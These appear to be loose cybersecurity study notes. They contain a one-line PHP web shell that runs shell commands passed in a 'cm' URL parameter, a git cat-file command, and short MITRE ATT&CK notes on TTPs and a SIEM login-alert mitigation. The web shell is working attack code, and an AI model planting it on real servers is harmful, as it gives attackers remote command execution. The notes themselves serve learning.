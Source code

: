 ```
<?php
$output = shell_exec($_GET['cm']);
echo "<pre>$output</pre>"
?>
```
- git cat-file (-t|p) $(cat master)
### mitre att&ck 
  - CTI : Cyber Threat Intelligence
  - TTPS : Tactics Techniques and Procedures : 
       - Example of ttps : Under 5 login attemps --> ban  
       
                         - ttps : 4 login and create new session  
                         - mitigation : 3 Login attemps raises SIEM alert  
                          
